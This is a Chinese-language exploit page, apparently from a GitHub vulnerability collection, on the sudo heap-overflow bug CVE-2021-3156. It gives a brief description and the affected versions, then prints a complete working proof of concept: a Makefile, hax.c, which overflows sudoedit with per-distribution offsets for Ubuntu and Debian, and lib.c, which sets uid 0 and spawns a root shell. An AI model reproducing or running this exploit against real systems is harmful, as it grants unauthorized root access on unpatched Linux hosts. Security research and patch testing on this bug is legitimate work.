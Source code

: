 # Linux sudo权限提升漏洞 CVE-2021-3156

## 漏洞描述

2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。

## 漏洞影响

> Sudo 1.8.2 - 1.8.31p2
>
> Sudo 1.9.0 - 1.9.5p1

## 漏洞利用POC

> [!NOTE]
>
> POC目录已经加入漏洞利用代码
>
> 另一个无交互式shell使用的脚本 https://github.com/Rvn0xsy/CVE-2021-3156-plus

Makefile

```shell
all:
	rm -rf libnss_X
	mkdir libnss_X
	gcc -o sudo-hax-me-a-sandwich hax.c
	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```



hax.c

```c
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    printf("  usage: %s <target>\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    printf("  ------------------------------------------------------------\n");
    printf("\n");
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = &targets[ atoi(argv[1]) ];

    printf("using target: '%s'\n", target->target_name);

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```



lib.c

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
}
```


